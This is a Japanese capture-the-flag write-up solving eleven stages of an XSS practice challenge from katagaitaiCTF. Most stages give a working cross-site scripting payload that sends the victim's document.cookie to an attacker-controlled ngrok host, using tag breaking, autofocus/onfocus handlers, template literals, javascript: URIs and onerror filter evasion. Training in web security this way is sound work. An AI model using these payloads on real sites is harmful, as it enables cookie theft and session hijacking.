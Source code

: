### katagaitaiCTF xss千本ノック write up

8月27日に秋葉原で開かれたkatagaitaiCTFに参加してきました。  
そこで行われたxss千本ノックのwrite upです。

12~43問までのwrite upはhfukudaさんがアップしています。  
[katagaitai CTF勉強会 #9 writeup(Webパート)](http://0x90.hatenablog.jp/entry/2017/08/27/201021)  

[Flask](http://flask.pocoo.org/)を使って適当にサーバを建てて[ngrok](https://ngrok.com/)を使って外部に公開してクッキーを取っていきました。  


#### Stage1/Sanity Check

> Welcome to Senbon XSS!  
> In this stage, just submit the flag `FLAG{waiwai_xss}` to the FLAG form.  
> If you submit a URL to the URL form, the victime browser will automatically access the URL.  
  
ということのなのコピーして貼り付けるだけ。


#### Stage2/Sanity Check
+がurlデコードされるから%2bにして投げる。
```
/?q=<script>location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;</script>
```

#### Stage3/Sanity Check
タグを閉じてスクリプトを埋め込む。
```
/?q="><script>location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;</script>
```

#### Stage4/Sanity Check
textareaタグを閉じてスクリプトを埋め込む。
```
/?q=</textarea><script>location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;</script><textarea>
```

#### Stage5/Sanity Check
value属性を閉じて、inputタグにフォーカスが当たったときにスクリプトを走らせます。  
ただ、このままでは即時実行出来ないので`autofocus`属性を使い最初からフォーカスを当てるようにします。
```
/?q="%20autofocus%20onfocus="location.href='http://b5236666.ngrok.io?c='%2bdocument.cookie;"
```

#### Stage6/Sanity Check
シングルクォートしか使えないので、代わりにES6から導入されたテンプレートリテラルを使用すます。
```
/?q='%20autofocus%20onfocus='location.href=`http://b5236666.ngrok.io?c=${document.cookie}`;'
```

#### Stage7/Sanity Check
今回もテンプレートリテラルを使っていく。
```
/?q=value%20autofocus%20onfocus=location.href=`http://b5236666.ngrok.io?c=${document.cookie}`;
```

#### Stage8/Sanity Check
iframeタグのsrcに直接スクリプトを書く。
```
/?q=javascript:location.href=`http://b5236666.ngrok.io?c=${document.cookie}`;
```

#### Stage9/Sanity Check
scriptタグを埋め込みます。
```
/?q=<script>location.href=`http://b5236666.ngrok.io?c=${document.cookie}`;</script>
```

#### Stage10/Sanity Check
いろいろできるんだけど、chromeのxssフィルターに引っかかりまくった…  
hfukudaのwrite upをみて解けた。
```
/?q=<img%20src=x%20oscriptnerror=location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;>
```

#### Stage11/Sanity Check
Stage10といっしょ。
```
/?q=<img%20src=x%20oscriptnerror=location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;>
```